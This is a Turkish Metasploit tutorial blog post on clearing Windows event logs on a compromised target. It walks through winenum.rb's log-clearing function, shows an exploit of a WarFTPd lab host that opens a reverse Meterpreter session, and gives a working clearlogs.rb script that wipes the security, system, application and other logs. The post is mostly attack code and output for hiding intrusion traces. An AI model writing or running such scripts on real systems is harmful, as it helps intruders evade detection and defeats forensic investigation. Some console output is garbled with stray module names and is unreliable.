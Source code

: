 ```yaml
---
draft: false

title:  'MSF Log Yönetimi'
date: '2017-06-05T13:21:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Bazen hedef bilgisayarda yaptığınız işlemlerin log kayıtlarını temizlemek isteyebilirsiniz. Bu temizleme işlemi için öncelikle meterpreter in sağladığı\_winenum\_script kodlarının nasıl çalıştığına bakalım. Script dosyasını Metasploit Framework klasörünüzün altında\_/usr/share/metasploit-framework/scripts/meterpreter/winenum.rb\_adresinde bulabilirsiniz. Bu dosya içerisinde bir çok bölüm bulunmaktadır. Biz şimdilik sadece\_# Function for clearing all event logs\_kısmıyla ilgileneceğiz." 
 
url:  /tr/msf-log-yonetimi/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



Bazen hedef bilgisayarda yaptığınız işlemlerin log kayıtlarını temizlemek isteyebilirsiniz. Bu temizleme işlemi için öncelikle meterpreter in sağladığı `winenum` script kodlarının nasıl çalıştığına bakalım. Script dosyasını Metasploit Framework klasörünüzün altında `/usr/share/metasploit-framework/scripts/meterpreter/winenum.rb` adresinde bulabilirsiniz. Bu dosya içerisinde bir çok bölüm bulunmaktadır. Biz şimdilik sadece `# Function for clearing all event logs` kısmıyla ilgileneceğiz.


```bash
# Function for clearing all event logs
def clrevtlgs**()**
  evtlogs **=** **[**
    'security',
    'system',
    'application',
    'directory service',
    'dns server',
    'file replication service'
  **]**
  print_status**(**"Clearing Event Logs, this will leave and event 517"**)**
  begin
    evtlogs.each **do** |evl|
      print_status**(**"\tClearing the #{evl} Event Log"**)**
      log **=** @client.sys.eventlog.open**(**evl**)**
      log.clear
      file_local_write**(**@dest,"Cleared the #{evl} Event Log"**)**
    end
    print_status**(**"All Event Logs have been cleared"**)**
  rescue ::Exception **=&gt;** e
    print_status**(**"Error clearing Event Log: #{e.class} #{e}"**)**

  end
end
```



Programlama ile ilgilenenler kodları ve fonksiyonun nasıl çalıştığını rahatlıkla anlayacaktır. Yukarıdaki kodların ne işe yaradığını özetle açıklayalım. `evtlogs.each do |evl|` döngüsü, Windows’a ait ‘security’, ‘system’, ‘application’, ‘directory service’, ‘dns server’ ve ‘file replication service’ loglarını sırasıyla açar ve temizler.



Şimdi, hazır script yerine yukarıdaki dosyadan örnek alarak kendi script kodumuzu oluşturalım ve kaydedelim. Bunun için Meterpreter içnde Ruby kodlamayı kullanacağız. Temizlikten önce Windows Log durumunu aşağıdaki resimden görebilirsiniz.


<!-- wp:image {"id":1001,"sizeSlug":"full","linkDestination":"none"} -->
<figure class="wp-block-image size-full"><img src="https://www.siberoloji.com/wp-content/uploads/2024/06/Eventlog-00.png" alt="" class="wp-image-1001" /></figure>
<!-- /wp:image -->


Biz sadece ‘system’ loglarını temizlemek istediğimizden yukarıdaki döngü içerisinden sadece `log = client.sys.eventlog.open(‘system’)` durumunu kullanacağız.



## Bu kısımda deneme yapıyoruz



Öncelikle hedef bilgisayarda bir meterpreter shell açmış olmalıyız.


```bash
msf exploit**(**warftpd_165_user**)** **&gt;** exploit

**[*********]** Handler binding to LHOST 0.0.0.0
**[*********]** Started reverse handler
**[*********]** Connecting to FTP server 172.16.104.145:21...
**[*********]** Connected to target FTP server.
**[*********]** Trying target Windows 2000 SP0-SP4 English...
**[*********]** Transmitting intermediate stager **for **over-sized stage...**(**191 bytes**)**
**[*********]** Sending stage **(**2650 bytes**)**
**[*********]** Sleeping before handling stage...
**[*********]** Uploading DLL **(**75787 bytes**)**...
**[*********]** Upload completed.
**[*********]** Meterpreter session 2 opened **(**172.16.104.130:4444 -&gt; 172.16.104.145:1246**)**
```



Ardından meterpreter shell içerisinden Ruby kodlayıcısını `irb` komutuyla çalıştırıyoruz ve aşağıdaki kodları yapıştırıyoruz.


```bash
meterpreter **&gt;** irb
**[*********]** Starting IRB shell
**[*********]** The 'client' variable holds the meterpreter client
**&gt;&gt;** log **=** client.sys.eventlog.open**(**'system'**)**
**=&gt;** #&gt;#:0xb6779424 @client=#&gt;, #&gt;, #

"windows/browser/facebook_extractiptc"**=&gt;**#, "windows/antivirus/trendmicro_serverprotect_earthagent"=&gt;#, "windows/browser/ie_iscomponentinstalled"=&gt;#, "windows/exec/reverse_ord_tcp"=&gt;#, "windows/http/apache_chunked"=&gt;#, "windows/imap/novell_netmail_append"=&gt;#
```



Şimdi, meterpreter içerisinde `log.clear` komutuyla logların temizlenip temizlenmediğini kontrol edelim.


```bash
**&gt;&gt;** log.clear
**=&gt;** #&gt;#:0xb6779424 @client=#&gt;,

/trendmicro_serverprotect_earthagent"=&gt;#, "windows/browser/ie_iscomponentinstalled"=&gt;#, "windows/exec/reverse_ord_tcp"=&gt;#, "windows/http/apache_chunked"=&gt;#, "windows/imap/novell_netmail_append"=&gt;#
```


<!-- wp:image {"id":1002,"sizeSlug":"full","linkDestination":"none"} -->
<figure class="wp-block-image size-full"><img src="https://www.siberoloji.com/wp-content/uploads/2024/06/Eventlog-01.png" alt="" class="wp-image-1002" /></figure>
<!-- /wp:image -->


Meterpreter içerisinde Ruby kodlayıcısı kullanarak basit bir log temizleme denemesi yaptık ve yaptığımız kontrolde başarılı olduk. Bu yaklaşımı kullanarak kendi Script kodlarımızı yazabiliriz.



## Tüm Logları Temizleme



Aşağıdaki kodları bir dosyaya yazarak `/usr/share/metasploit-framework/scripts/meterpreter/` klasörüne `clearlogs.rb` adıyla kaydedin.


```bash
evtlogs **=** **[**
        'security',
        'system',
        'application',
        'directory service',
        'dns server',
        'file replication service'
        **]**
print_line**(**"Clearing Event Logs, this will leave an event 517"**)**
evtlogs.each **do** |evl|
        print_status**(**"Clearing the #{evl} Event Log"**)**
        log **=** client.sys.eventlog.open**(**evl**)**
        log.clear
end
print_line**(**"All Clear! You are a Ninja!"**)**
```



Artık bu yeni oluşturduğunuz Script kodlarını yeni açtığınız Meterpreter oturumlarında çalıştırabilirsiniz.


```bash
msf exploit**(**warftpd_165_user**)** **&gt;** exploit

**[*********]** Handler binding to LHOST 0.0.0.0
**[*********]** Started reverse handler
**[*********]** Connecting to FTP server 172.16.104.145:21...
**[*********]** Connected to target FTP server.
**[*********]** Trying target Windows 2000 SP0-SP4 English...
**[*********]** Transmitting intermediate stager **for **over-sized stage...**(**191 bytes**)**
**[*********]** Sending stage **(**2650 bytes**)**
**[*********]** Sleeping before handling stage...
**[*********]** Uploading DLL **(**75787 bytes**)**...
**[*********]** Upload completed.
**[*********]** Meterpreter session 1 opened **(**172.16.104.130:4444 -&gt; 172.16.104.145:1253**)**

meterpreter **&gt;** run clearlogs
Clearing Event Logs, this will leave an event 517
**[*********]** Clearing the security Event Log
**[*********]** Clearing the system Event Log
**[*********]** Clearing the application Event Log
**[*********]** Clearing the directory service Event Log
**[*********]** Clearing the dns server Event Log
**[*********]** Clearing the file replication service Event Log
All Clear! You are a Ninja!
meterpreter **&gt;** exit
```



Aşağıdaki resimde görüldüğü gibi tüm loglar temizlenmiştir. Geriye sadece 517 numaralı işlem kalmıştır. O işlemde halen meterpreter’in çalıştığı proses olduğundan halen aktif durumdadır.


<!-- wp:image {"id":1003,"sizeSlug":"full","linkDestination":"none"} -->
<figure class="wp-block-image size-full"><img src="https://www.siberoloji.com/wp-content/uploads/2024/06/Eventlog-03.png" alt="" class="wp-image-1003" /></figure>
<!-- /wp:image -->


Bu yazıda, Metasploit Framework içerisinde bulunan Scriptleri örnek alarak kendi script dosyamızı yazmayı ve log temizlemeyi göstermeye çalıştık. `/usr/share/metasploit-framework/scripts/meterpreter/` klasöründe bulunan diğer script dosyalarını da incelemenizi tavsiye ediyoruz. Bu sayede elinizdeki imkanları da öğrenmiş olacaksınız.
